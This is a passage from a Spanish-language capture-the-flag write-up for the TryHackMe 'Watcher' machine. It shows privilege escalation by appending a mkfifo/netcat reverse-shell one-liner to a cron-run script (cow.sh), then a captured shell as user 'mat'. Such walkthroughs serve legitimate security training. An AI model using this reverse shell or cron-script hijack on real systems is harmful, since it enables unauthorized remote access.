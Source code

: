 5.1 Con base en la pista entregada, procedemos a consultar los trabajos programados con  **"crontab"**:

~~~cs
cat /etc/crontab
~~~

![flag5](/assets/images/thm-writeup-watcher/watcher_flag5.png)

5.2 Observamos el script "cow.sh", el cual copia una foto entre directorios:

~~~cs
toby@watcher:~/jobs$ cat cow.sh
cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
~~~

5.3 Nos ponemos en escucha con **"nc"** en el puerto 5555
  
~~~cs
nc -nlvp 5555
~~~

5.4 Nos ubicamos en la ruta en la que se encuentra el script e inyectamos una reverse shell en el script **"cow.sh"** con el siguiente comando:

~~~cs
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.68 5555 >/tmp/f" >> cow.sh
~~~

5.5 Ejecutamos el script:

~~~cs
./cow.sh
~~~

5.6 Obtenemos una reverse shell como **"mat" y la bandera solicitada:

~~~cs
└─# nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.9.0.68] from (UNKNOWN) [10.10.107.245] 40532
sh: 0: can't access tty; job control turned off
$ whoami
mat
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
mat@watcher:~$ ls
ls
cow.jpg  flag_5.txt  note.txt  scripts
cat flag_5.txt
FLAG{????????}
mat@watcher:~$ 
~~~
